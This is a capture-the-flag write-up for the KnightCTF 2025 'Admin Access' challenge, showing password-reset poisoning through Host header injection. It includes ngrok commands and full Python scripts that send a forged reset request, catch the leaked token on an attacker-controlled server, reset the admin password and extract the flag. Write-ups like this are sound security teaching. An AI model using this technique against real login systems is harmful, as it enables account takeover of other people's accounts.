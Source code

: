 # Admin Access

<!--more-->
### Initial Analysis

The site appeared as follows, with a login screen:

![Site Presentation](/images/KnightCTF-2025/Admin-Access/site_presentation.png "Site Presentation")

After completing the registration and login phase, you would enter a completely empty dashboard where the only available action was to log out. That’s when I realized that registering was pointless. Inspecting the page source, I found a strange comment:

![Admin Email](/images/KnightCTF-2025/Admin-Access/admin_email.png "Admin Email")

the comment revealed an email, most likely belonging to the account containing the flag. Continuing to explore the site since it was a black-box challenge without any files I found the "Forgot Password" section:

![Forgot Password](/images/KnightCTF-2025/Admin-Access/forgot_password.png "Forgot Password")

Where it was possible to specify an email to reset a password. At this point, I thought about resetting the password for the account associated with the email I had found earlier. And I considered a Host Header Injection.

### Exploit

So i started ngrok on port 80:

```bash
ngrok http 80
```

And then, using Burp Suite, I modified the Host header to `Host: ngrok_link`. By sending the request with the modified Host header through ngrok, I was able to extract the reset token from the previously sent "Forgot Password" request with the email kctf2025@knightctf.com:

![Intercept](/images/KnightCTF-2025/Admin-Access/intercept.png "Intercept")

After extracting the valid token, I reset the password using the obtained link and logged in with the account using the following credentials:

```
username: kctf2025 
password: new_password
```

![Manual Flag](/images/KnightCTF-2025/Admin-Access/manual_flag.png "Manual Flag")

### Automated Exploit

I also created a fully automated exploit that performs the entire process described earlier:

```bash
ngrok http 8080
(set the ngrok url in the request.py file)
python exploit.py
python request.py
```
this is `exploit.py`: 

```python 
import http.server
import socketserver
import requests
import re
from urllib.parse import urlparse, parse_qs

class MyHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):

        # Extract the token parameter from the request
        token = parse_qs(urlparse(self.path).query).get('token', [None])[0]
        self.send_request(token)

    def send_request(self, token):

        s = requests.Session()
        url = "http://45.56.68.122:7474/"

        password = "supermario45"
        data ={
            "token":token,
            "new_password":password
        }
        # Request for the password reset of the admin account
        s.post(url+"reset-password", data=data).text

        credentials={
            "username":"kctf2025",
            "password":password
        }
        # Request login admin account with Flag extraction via Regex
        print("\nFLAG: " + re.search(r'KCTF{[^}]+}', s.post(url, data=credentials).text).group(0))

def start_server():
    PORT = 8080
    with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
        httpd.serve_forever()

if __name__ == "__main__":
    start_server()
```

and this is `request.py`:

```python
import requests

requests.post("http://45.56.68.122:7474/forgot-password", data={"email":"kctf2025@knightctf.com"}, headers={"Host":"6cde-93-70-84-224.ngrok-free.app"})
```

### Flag
{{< admonition danger "Flag" >}}
KCTF{PaSsW0rD_ReSet_p0is0n1ng_iS_FuN}
{{< /admonition >}}
